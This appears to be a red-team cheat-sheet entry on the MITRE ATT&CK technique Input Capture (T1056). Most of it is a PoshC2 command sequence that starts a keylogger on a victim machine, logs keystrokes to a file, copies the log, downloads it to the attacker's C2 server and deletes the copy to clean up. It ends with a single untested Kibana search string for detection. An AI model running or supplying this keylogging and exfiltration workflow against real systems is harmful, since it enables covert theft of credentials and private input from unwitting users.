 # [Input Capture](https://attack.mitre.org/techniques/T1056/)

## Exploit Description: 
Adversaries may use methods of capturing user input to obtain credentials or collect information. During normal system usage, users often provide credentials to various different locations, such as login pages/portals or system dialog boxes. Input capture mechanisms may be transparent to the user (e.g. Credential API Hooking) or rely on deceiving the user into providing input into what they believe to be a genuine service (e.g. Web Portal Capture).

---

## Exploit syntax:
In Poshc2, Run
```sh
start-keystrokes 
##Starts the Keylogger(realtime on poshc2 Server)

start-keystrokes-writefile 
##record this filelocation(.log) this in on victim box

### Keylogger is now running until Stopped ### Typically used if keylogger is being ran over a set time"


copy "fileLocation(.log)" "Sameplace newname(.log)"
#make a copy to download after the logger has been running

Download-file "path of newname.log" 
## Gets put into /var/poshc2/*projectname*/downloads

Stop-Keystrokes 
##Stop keylogger for cleanup

posh-delete C:\<same place new filename> 
##Cleaning up file created

#you cant delete the original filelocation if the implant is still up. will get file in use error.
```
---

## Detection Technique:
* (Kibana): Utilized string searches. (“Get-Keystrokes”) --- NOT TESTED IN KIBANA